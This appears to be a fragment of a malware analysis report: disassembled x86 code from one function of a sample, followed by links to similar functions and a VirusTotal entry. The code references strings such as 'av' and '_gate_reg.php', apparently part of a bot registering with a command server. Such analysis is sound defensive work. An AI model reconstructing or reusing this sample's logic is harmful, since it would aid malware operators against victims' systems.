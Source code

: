 call fcn.004029e3
mov ecx,eax
mov eax,ebx
lea edi,[ebp-0x2b8]
mov byte[ebp-4],0x36
call fcn.00402a1a
push str.av
push eax
lea eax,[ebp-0x248]
push eax
mov byte[ebp-4],0x37
call fcn.004029e3
mov ecx,eax
mov byte[ebp-4],0x38
mov eax,dword[ebp-0x460]
lea edi,[ebp-0x168]
call fcn.00402a1a
add esp,8
mov byte[ebp-4],0x39
mov dword[ebp-0x460],esp
mov esi,eax
mov eax,esp
call fcn.00401b7c
sub esp,0x1c
mov ecx,esp
mov byte[ebp-4],0x3a
mov dword[ebp-0x474],esp
push 0xf
pop esi
xor ebx,ebx
mov dword[ecx+0x14],esi
mov dword[ecx+0x10],ebx
push str._gate_reg.php
mov byte[ecx],bl
call fcn.00401caf
sub esp,0x1c
mov eax,esp
mov dword[ebp-0x470],esp
push eax
mov byte[ebp-4],0x3b
call fcn.0040318d
lea ecx,[ebp-0x14c]
mov byte[ebp-4],0x55
call fcn.00401626
xor edi,edi
push ebx
inc edi
push edi
lea ecx,[ebp-0x14c]
call fcn.00401cd0
push ebx
push edi
lea ecx,[ebp-0x168]
call fcn.00401cd0
push ebx
push edi
lea ecx,[ebp-0x248]
call fcn.00401cd0
push ebx
push edi
lea ecx,[ebp-0x2b8]
call fcn.00401cd0
push ebx
push edi

[similar_1_ref]: /report/fcn.1000a104@a0ac129ff3ea4c0dfa9529c259a9502c
[similar_2_ref]: /report/fcn.004172d1@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_3_ref]: /report/fcn.0043883a@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_4_ref]: /report/fcn.0040495d@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_5_ref]: /report/fcn.00420823@b3771987fba16f4fba07d1109ec72c76
[virustotal_ref]: https://www.virustotal.com/gui/file/69b3c79878674ea715338a112bb5caa6